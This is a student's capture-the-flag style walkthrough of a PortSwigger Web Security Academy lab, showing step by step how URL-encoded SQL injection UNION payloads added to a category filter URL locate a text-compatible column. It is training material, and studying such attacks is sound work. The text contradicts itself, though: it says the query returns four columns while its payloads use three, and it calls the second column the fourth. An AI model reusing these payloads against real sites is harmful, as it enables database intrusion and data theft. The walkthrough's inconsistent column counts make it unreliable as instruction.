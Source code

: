 
# SQL injection UNION attack, finding a column containing text

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

## The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data

#sql_injection_union
___

step 1

click on any category to filter the result and send to repeater

![screnshot](lab4_lifestyle_category.jpg)

step 2

here query returns four columns so you have to use `' UNION SELECT NULL,NULL,NULL--` 
`' UNION SELECT NULL,NULL,NULL--` => (URL Encoded) `'+UNION+SELECT+NULL,NULL,NULL--`
add  `'+UNION+SELECT+NULL,NULL,NULL--` at the end 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](lab4_lifestyle_null_null_null.jpg)

step 3

since query returns four columns so you have to use
>' UNION SELECT 'a',NULL,NULL,NULL-- 
>' UNION SELECT NULL,'a',NULL,NULL-- 
>' UNION SELECT NULL,NULL,'a',NULL-- 
>' UNION SELECT NULL,NULL,NULL,'a'--

If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
`Conversion failed when converting the varchar value 'a' to data type int.`

first payload
add `'+UNION+SELECT+'a',NULL,NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+'a',NULL,NULL--`

![screnshot](lab4_lifestyle_a_null_null.jpg)

step 4

`/filter?category=Lifestyle'+UNION+SELECT+NULL,'a',NULL--`
you will notice `a` added in the fourth column

![screnshot](lab4_lifestyle_null_a_null.jpg)

step 5

since database retrieve string is `'RknAON'` it might be different in your case
replace a with `'RknAON'`
final payload will be `'+UNION+SELECT+NULL,'RknAON',NULL--` 
`/filter?category=Lifestyle'+UNION+SELECT+NULL,'RknAON',NULL--`

![screnshot](lab4_lifetyle_a_rknaon_null.jpg)

step 6

to solve the lab copy  `'+UNION+SELECT+NULL,'RknAON',NULL--` 
add at the end of URL press enter your lab will solved

![screnshot](portswigger_wsa/P01_server_side_topic/P01_sql_injection/images/lab4_solved_lab.jpg)